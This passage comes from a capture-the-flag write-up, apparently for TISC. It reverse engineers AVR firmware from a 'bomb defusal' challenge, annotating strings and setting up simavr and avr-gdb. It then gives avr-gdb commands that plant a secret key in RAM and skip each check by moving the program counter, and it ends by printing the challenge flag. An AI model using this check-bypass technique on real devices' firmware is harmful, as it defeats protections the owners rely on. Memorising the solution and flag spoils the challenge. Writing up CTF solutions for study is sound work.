code:1916.1: "Bomb defused!"
- ROM address: 0x322C
- RAM address: 0x26F
- Resides at code:136d
```

From here, we can annotate where the strings are being used. After annotating, you will notice that the function `FUN_code_07e9` is always called immediately afterward. This is likely the function responsible for displaying the string. Therefore, we can rename `FUN_code_07e9` to `display_string`.

Between displaying `Read key chip:` and `GoodLuckDefusing`, it displays a string from the RAM address `0x3dd`:



Cross-referencing with the Wokwi project, this appears to be displaying the secret key:



When performing dynamic analysis later on, we can manually break at the call to the `display_string` instruction and manually write the secret key to `0x33d`. This allows the firmware to perform subsequent logic that may require the key.

This is where we want our execution to eventually flow to:



Keep in mind that we want to avoid branches that lead to the call of `FUN_code_07f8`, which will display `Wrong decryption`.

With all the information at hand, we can now proceed with dynamic analysis. We first need to set up `simavr`. This can be done with the following commands:

```sh
# terminal 1: set up docker container
docker build -t image_simavr .
docker run -d -i -t image_simavr /bin/bash
docker container ls
docker cp firmware.hex <container id>:/src

# terminal 2: run simavr
docker run -i -t image_simavr /bin/bash
cd simavr/examples/board_simduino/obj-x86_64-linux-gnu/
./simduino.elf -d /src/firmware.hex

# terminal 3: run avr-gdb, connect to debugging port
docker run -i -t image_simavr /bin/bash
avr-gdb
## in avr-gdb
# target remote :1234
# set disassemble-next-line on
```



One thing to note when using `avr-gdb` is that when setting a breakpoint at a ROM address, it can lead to unexpected behavior due to the way AVR's modified Harvard architecture handles memory. Specifically, the same address can refer to both ROM and RAM, leading to potential confusion. As explained in this [StackOverflow](https://stackoverflow.com/a/46337874) answer, `avr-gdb` handles this architecture. The issue arises because ROM and RAM share address spaces, and `avr-gdb` distinguishes between them by utilizing different address spaces. Understanding how to reference ROM and RAM addresses correctly in `avr-gdb` is crucial to avoid issues when setting breakpoints.

With all the information in mind, we can proceed with debugging the firmware. The key steps involve adding the key chip in RAM at `0x33d` by setting a breakpoint at the ROM address `0x1BDE`. We should also bypass specific checks that would lead to the `FUN_code_07f8` function, which displays the message `Wrong decryption`. By constantly bypassing those checks, we will eventually reach ROM address `0x26DA`, where the message `Bomb defused!` is displayed. At this point, we can inspect the RAM for any presence of a flag.

## Solution

Here are the final `avr-gdb` commands to execute, summarizing what was mentioned in the previous paragraph:

```
# Setup avr-gdb
target remote :1234
set disassemble-next-line on

# Breakpoint 1: Right before displaying "Read key chip:"
b *($pc+0x1BDE)

# Breakpoint 2, 3, 4, 5: Some if-statement, loop right before
b *($pc+0x2044)
b *($pc+0x204E)
b *($pc+0x205C)
b *($pc+0x2066)

# Breakpoint 6: right before input #
b *($pc+0x206E)

# Breakpoint 7: first group of check -> [if RS25R24 != 0 @ code:1051]
b *($pc+0x20A2)

# Breakpoint 8, 9: second group of checks -> [if R25R24 == 0 and DAT_mem_037C != 0]
b *($pc+0x20BA)
b *($pc+0x20C4)

# Breakpoint 10: Bomb defused
b *($pc+0x26DA)

# Goto breakpoint 1, set key chip
c
set {char[17]}0x33d  = "m59F$6/lHI^wR~C6"
# Goto breakpoint 2, bypass execution
c
set $pc = $pc + 2
# Goto breakpoint 3, bypass execution
c
set $pc = $pc + 2
# Goto breakpoint 4, bypass execution
c
set $pc = $pc + 2
# Goto breakpoint 5, bypass execution
c
set $pc = $pc + 2
# Goto breakpoint 6, bypass execution
c
set $pc = $pc + 2
# Goto breakpoint 7, bypass execution
c
set $pc = $pc + 2
# Goto breakpoint 8, bypass execution
c
set $pc = $pc + 2
# Goto breakpoint 9, bypass execution
c
set $pc = $pc + 2
# Goto breakpoint 10, display RAM and look for flag
c
x/1500s 0x800000
```



The flag is `TISC{h3y_Lo0k_1_m4d3_My_0wn_h4rdw4r3_t0k3n!}`.
